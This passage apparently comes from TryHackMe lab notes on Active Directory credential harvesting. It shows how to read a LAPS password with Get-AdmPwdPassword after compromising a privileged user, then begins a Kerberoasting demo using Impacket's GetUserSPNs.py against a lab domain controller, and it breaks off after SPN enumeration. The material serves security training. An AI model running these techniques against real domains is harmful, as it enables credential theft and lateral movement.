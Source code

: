 ```shell-session
        
```

### Getting the Password

We found that the `bk-admin` user is a member of `THMGroupReader`, so in order to get the LAPS password, we need to compromise or  impersonate the bk-admin user. After compromising the right user, we can get the LAPS password using `Get-AdmPwdPassword` cmdlet by providing the target machine with LAPS enabled.

- **Getting LAPS Password with the Right User**        

```shell-session
PS C:\> Get-AdmPwdPassword -ComputerName creds-harvestin

ComputerName         DistinguishedName                             Password           ExpirationTimestamp
------------         -----------------                             --------           -------------------
CREDS-HARVESTIN      CN=CREDS-HARVESTIN,OU=THMorg,DC=thm,DC=red    FakePassword    2/11/2338 11:05:2...
        
```

It is important to note that in a real-world AD environment, the LAPS is enabled on specific machines only. Thus, you need to enumerate and  find the right target computer as well as the right user account to be  able to get the LAPS password. There are many scripts to help with this, but we included the [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) PowerShell script.

# Other Attacks

### Kerberoasting

Kerberoasting is a common AD attack to obtain AD tickets that helps with persistence. In order for this attack to work, an adversary must have access to SPN (Service Principal Name) accounts such as IIS User, MSSQL, etc. The Kerberoasting attack involves requesting a Ticket Granting Ticket (TGT) and Ticket Granting Service (TGS). This attack's end goal is to enable privilege escalation and lateral network movement. For more details about the attack, you can visit the THM [Persisting AD](https://tryhackme.com/room/persistingad) room (Task 3).

Let's do a quick demo about the attack. First, we need to find an SPN  account(s), and then we can send a request to get a TGS ticket. We will  perform the Kerberoasting attack from the AttackBox using the GetUserSPNs.py python script. Remember to use the THM.red/thm account with Passw0rd! as a password.

- **Enumerating for SPN Accounts**

```shell-session
user@machine$ python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip 10.10.162.92 THM.red/thm
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------------  -------  --------  --------------------------  ---------  ----------
http/creds-harvestin.thm.red  svc-user            2022-06-04 00:15:18.413578  
        
```
